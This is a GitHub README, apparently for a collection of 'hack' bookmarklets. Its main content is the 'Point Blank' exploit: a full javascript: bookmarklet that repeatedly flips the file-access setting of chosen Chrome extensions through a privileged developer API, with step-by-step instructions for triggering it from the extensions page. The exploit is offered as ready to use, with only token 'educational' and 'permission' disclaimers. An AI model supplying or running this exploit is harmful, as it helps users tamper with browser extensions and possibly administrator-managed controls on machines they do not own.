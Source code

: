 Hey, welcome to the HackCollection. Here I enter in my hacks.
ALL MY HACKS ARE BOOKMARKLETS!
I do not condone hacking, this is for educational purposes.
This is all subject to change. Feel free to make issues and I will be sure to add the updated hacks.

If you have any issues please let me know.


HOW TO USE

 Once you have found a hack you like, you are to double click it and drag it to your Bookmark Bar. once you are done, just go to said site and click the bookmark.


CREDIT GOES TO hostedposted, AgrTheDev, milantje200 AND 3kh0
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit You can either use the prompt or the gui the prompt is below 1. Bookmark this code:
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
And the gui is in launcher.js 2. Navigate to chrome://extensions 3. Click on a extension that YOU installed from the Chrome Web Store > Details 4. In the URL bar, copy the string of letters and numbers after the /?id= 5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet 5. Paste the id of the extension into the prompt or input box seperated by commas. If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (cj-hacks) do not condone the use of this exploit for illegal purposes!
(speech made by 3kh0)
